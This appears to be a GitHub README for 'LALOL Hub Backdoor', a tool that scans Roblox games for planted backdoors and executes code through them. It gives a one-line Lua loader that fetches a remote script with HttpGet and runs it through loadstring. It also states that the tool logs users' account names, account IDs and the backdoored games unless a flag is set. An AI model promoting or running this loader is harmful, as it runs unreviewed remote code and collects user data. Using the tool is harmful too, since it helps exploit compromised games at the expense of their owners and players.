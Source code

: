 # LALOL Hub Backdoor
Backdoor scanner (and executor) for roblox games

```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/script'))()
```

![](https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/screenshot.png)

# Features
1. Fast 
2. Nice UI and UX
3. Works in all backdoored games

#
We logging the account name and account ID and the backdoor games. If u want disable logs add `_G.LALOL_Hub_Backdoor_Logs_Disabled=true` before loadstring
